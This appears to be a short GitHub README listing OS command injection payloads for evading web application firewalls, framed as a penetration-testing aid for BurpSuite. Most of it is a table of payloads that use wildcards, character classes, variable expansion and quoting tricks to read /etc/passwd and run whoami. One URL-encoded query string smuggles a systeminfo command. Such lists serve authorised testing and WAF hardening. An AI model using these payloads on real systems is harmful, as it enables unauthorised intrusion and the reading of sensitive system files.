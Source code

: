 # Bypass-WAF-OS-command-injection
In todays Web Penetration Testing you must have good injection payloads to fasten your engagements.<br>
You can use this on BurpSuite. Method below can be use on Web Penetration Testing.
<br>
<table border="1">
    <tr>
        <th>OS Command Injection Bypassing WAF </th>
    </tr>
    <tr>
        <td>1. cat /e*c/p*s*d</td>
    </tr>
    <tr>
        <td>2. cat /e[tv]c/p[aeiou]*d</td>
    </tr>
    <tr>
        <td>3. cat /e??/p????d</td>
    </tr>
    <tr>
        <td>4. cat /et${FOO:-c}/pa${BAR:-sswd}</td>
    </tr>
    <tr>
        <td>5. wh$()oami or whoam$(echo+i) or who'a'm(echo+i)</td>
    </tr>
    <tr>
        <td>6. /?n=%0A%&index=%00&&cmd=systeminfo&search=%25xxx%url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.}</td>
    </tr>
</table>

Another actual good reference:<br>
1. https://medium.com/@themiddleblue/waf-evasion-techniques-718026d693d8<br>
2. https://infosecwriteups.com/alibaba-cloud-waf-command-injection-bypass-via-wildcard-payload-in-all-1-462-built-in-rule-set-989b75db6e2f

